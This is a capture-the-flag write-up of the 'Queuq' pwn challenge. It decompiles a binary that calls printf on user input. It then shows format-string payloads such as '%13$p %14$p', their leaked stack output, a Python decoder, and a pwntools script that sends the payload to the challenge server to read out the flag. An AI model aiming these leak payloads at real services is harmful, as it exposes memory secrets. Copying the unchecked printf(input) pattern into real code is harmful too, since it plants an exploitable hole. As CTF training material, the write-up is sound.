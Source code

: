 # Queuq

Category: pwn
Requires: format string bug

(wasn't solved during event, this is just my proecdure after reading a few writeups)

ghidra, decompile `main`, reverse some variables:
```c
void main(void)

{
  __gid_t __rgid;
  FILE *__stream;
  long in_FS_OFFSET;
  char input [48];
  char flag [136];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Error: missing flag.txt.");
                    // WARNING: Subroutine does not return
    exit(1);
  }
  fgets(flag,128,__stream);
  printf("What did you learn in class today? ");
  fgets(input,48,stdin);
  printf("Oh nice, ");
  printf(input);
  printf("sounds pretty cool!");
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return;
}
```

since there is `fgets()` followed by `printf()` it is a FSB (Format string bug)

`%n$p` gets the nth argument on the stack as a **pointer**. (Wait, why is the flag encoded in the memory address? idk, did they forget to reference the value or smth???)

so we input this:
```
What did you learn in class today? %1$p %2$p %3$p %4$p %5$p %6$p %7$p %8$p %9$p %10$p %11$p %12$p %13$p %14$p %15$p %16$p %17$p %18$p %19$p %20$p
Oh nice, 0x7ffd8d06e960 (nil) (nil) (nil) (nil) 0x3e800000002 0x55d9978532a0 0x2432252070243125 0x2520702433252070 %1sounds pretty cool!
```
We get `0x2432252070243125 0x2520702433252070` as the "output". Converting this to little endian ascii:
```python
list = [0x2432252070243125, 0x2520702433252070]

flag = []

for l in list:
    l = hex(l)
    bytelen = len(l)-2
    if bytelen%2==1:
        l = '0'+l
    for i in range(1,bytelen,2):
        f = l[-i-1]+l[-i]
        f = int(f,16)
        flag.append(chr(f))
print(''.join(flag))
```

we get `%1$p %2$p %3$p %`, which is the original input (shouldn't be surprising, the `input` also stored on the stack). 
We keep removing format strings to prevent clogging the output until we get:
```
What did you learn in class today? %13$p %14$p %15$p %16$p %17$p %18$p %19$p %20$p
Oh nice, 0x70243032252070 0x3474737b66746361 0x75715f74695f6b63 0x615f74695f657565 0x3437396461393136 0x7d32326234363863 (nil) (nil)sounds pretty cool!
```
which becomes `p %20$pactf{st4ck_it_queue_it_a619ad974c864b22}`
Flag:
```
actf{st4ck_it_queue_it_a619ad974c864b22}`
```

Better script: [source](https://www.youtube.com/watch?v=jqF4Sgi4Ars)
```python
import pwn
import time
import warnings

elf = pwn.ELF('./queue')
pwn.context.binary = elf
pwn.context.log_level = "DEBUG"

libc = elf.libc

out=""
for i in range(14,19):
	# p = elf.process()
	p = pwn.remote('challs.actf.co','31322')
	p.sendlineafter(b"today?", f"%{i}$p")
	
	p.recvuntil('Oh nice, 0x')
	
	data = p.recvuntil('sounds', drop=True)
	out+=bytes.fromhex(data.decode()).decode()[::-1]
	p.close()
print(out)
```